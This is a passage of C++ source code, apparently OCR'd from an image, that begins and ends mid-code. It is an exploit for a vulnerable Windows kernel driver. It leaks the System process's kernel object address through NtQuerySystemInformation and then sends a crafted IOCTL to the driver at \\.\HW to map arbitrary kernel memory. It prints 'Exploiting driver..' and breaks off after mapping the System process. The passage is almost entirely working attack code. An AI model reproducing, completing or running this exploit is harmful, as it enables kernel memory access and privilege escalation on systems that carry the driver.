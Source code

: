 ```c++
    UCHAR HandleAttributes;
    USHORT HandleValue;
    PVOID Object;
    ULONG GrantedAccess;
} SYSTEM_HANDLE_TABLE_ENTRY_INFO, * PSYSTEM_HANDLE_TABLE_ENTRY_INFO;
 
typedef struct _SYSTEM_HANDLE_INFORMATION {
    ULONG NumberOfHandles;
    SYSTEM_HANDLE_TABLE_ENTRY_INFO Handles[1];
} SYSTEM_HANDLE_INFORMATION, * PSYSTEM_HANDLE_INFORMATION;
 
typedef NTSTATUS(NTAPI* _NtQueryIntervalProfile)(
    DWORD ProfileSource,
    PULONG Interval
);
 
QWORD getSystemEProcess() {
    ULONG returnLenght = 0;
    fNtQuerySystemInformation NtQuerySystemInformation = (fNtQuerySystemInformation)GetProcAddress(GetModuleHandle(L"ntdll"), "NtQuerySystemInformation");
    PSYSTEM_HANDLE_INFORMATION handleTableInformation = (PSYSTEM_HANDLE_INFORMATION)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, SystemHandleInformationSize);
    NtQuerySystemInformation(SystemHandleInformation, handleTableInformation, SystemHandleInformationSize, &returnLenght);
    SYSTEM_HANDLE_TABLE_ENTRY_INFO handleInfo = (SYSTEM_HANDLE_TABLE_ENTRY_INFO)handleTableInformation->Handles[0];
    return (QWORD)handleInfo.Object;
}
 
QWORD mapArbMem(QWORD addr, HANDLE hDriver) {
    DWORD index = 0;
    DWORD bytesWritten = 0;
    LPVOID uInBuf = VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    LPVOID uOutBuf = VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
 
    QWORD* in = (QWORD*)((QWORD)uInBuf);
    *(in + index++) = 0x4141414142424242;
    *(in + index++) = 0x4343434300001000; // size
    *(in + index++) = addr;               // addr
 
    DeviceIoControl(hDriver, IOCTL_01, (LPVOID)uInBuf, 0x1000, uOutBuf, 0x1000, &bytesWritten, NULL);
    QWORD* out = (QWORD*)((QWORD)uOutBuf);
    QWORD mapped = *(out + 2);
    return mapped;
}
 
int main() {
    HANDLE hDriver = CreateFile(L"\\\\.\\HW", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE)
    {
        printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
        exit(1);
    }       
 
    printf("[>] Exploiting driver..\n");
    QWORD systemProc = getSystemEProcess();
    printf("System Process: %llx\n", systemProc);
 
    QWORD systemProcMap = mapArbMem(systemProc, hDriver);    
    printf("System Process Mapping: %llx\n", systemProcMap);
 
```